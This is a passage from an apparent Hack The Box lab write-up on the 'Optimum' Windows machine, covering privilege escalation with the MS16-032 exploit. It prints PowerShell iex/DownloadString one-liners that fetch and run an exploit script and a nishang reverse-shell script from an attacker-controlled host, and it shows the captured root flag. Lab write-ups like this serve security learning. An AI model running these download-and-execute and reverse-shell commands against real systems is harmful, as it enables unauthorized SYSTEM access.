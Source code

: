 ### Privesc

We have to add this line to `Invoke-MS16032.ps1`:

{% highlight powershell %}
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/shell.ps1')"
{% endhighlight %}

The script `shell.ps1` is just a copy of the nishang `Invoke-PowerShellTcp.ps1` script we previously modified. The only difference is the port on which we are redirecting the shell: 

![diff between shell.ps1 and Invoke-PowerShellTcp.ps1](/assets/img/htb/machines/windows/easy/optimum/shell-script.png)

Go back to our windows reverse shell, download and execute `Invoke-MS16032.ps1` by doing so:

{% highlight powershell %}
 iex(New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/Invoke-MS16032.ps1')
{% endhighlight %}

![MS16032](/assets/img/htb/machines/windows/easy/optimum/MS16032.png)

Wait for the scripts to be downloaded and executed:

![scripts downloaded](/assets/img/htb/machines/windows/easy/optimum/http-server-ps1.png)

YES! We have access to SYSTEM shell:

![system](/assets/img/htb/machines/windows/easy/optimum/system.png)

{% highlight powershell %}
PS C:\users\Administrator\Desktop> type root.txt
51ed1b36553c8461f4552c2e92b3eeed
{% endhighlight %}
___

